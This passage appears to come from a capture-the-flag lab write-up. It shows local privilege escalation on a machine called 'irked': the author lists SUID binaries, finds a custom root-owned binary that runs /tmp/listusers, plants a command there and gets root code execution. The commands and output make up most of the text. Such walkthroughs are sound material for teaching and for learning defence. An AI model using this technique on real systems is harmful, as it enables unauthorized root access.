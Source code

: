    -rwsr-xr-x 1 root root 53112 May 17  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 52344 May 17  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
    -rwsr-xr-x 1 root root 96760 Aug 13  2014 /sbin/mount.nfs
    -rwsr-xr-x 1 root root 38868 May 17  2017 /bin/su
    -rwsr-xr-x 1 root root 34684 Mar 29  2015 /bin/mount
    -rwsr-xr-x 1 root root 34208 Jan 21  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 161584 Jan 28  2017 /bin/ntfs-3g
    -rwsr-xr-x 1 root root 26344 Mar 29  2015 /bin/umount
    

### viewuser

I don’t recognize the file `/usr/bin/viewuser`. I’ll run it to see what it
does:

    
    
    djmardov@irked:/dev/shm$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2019-04-03 06:34 (:0)
    djmardov pts/2        2019-04-04 09:01 (10.10.14.14)
    sh: 1: /tmp/listusers: not found
    

It throws an error saying that `sh` can’t find `/tmp/listusers`.

    
    
    djmardov@irked:~$ echo "test" > /tmp/listusers
    
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    sh: 1: /tmp/listusers: Permission denied
    

Permissions - the only thing that root can’t do is execute. So I’ll add it,
and change it to a command:

    
    
    djmardov@irked:~$ chmod +x /tmp/listusers 
    djmardov@irked:~$ echo id > /tmp/listusers 
    djmardov@irked:~$ viewuser 
    This application is being devleoped to set and test user permissions
    It is still being actively developed
    (unknown) :0           2018-11-20 11:57 (:0)
    djmardov pts/0        2018-11-20 11:58 (10.10.14.14)
    djmardov pts/1        2018-11-20 12:36 (10.10.14.14)
    uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
    

There’s execution. I’ll change the command to get a shell:
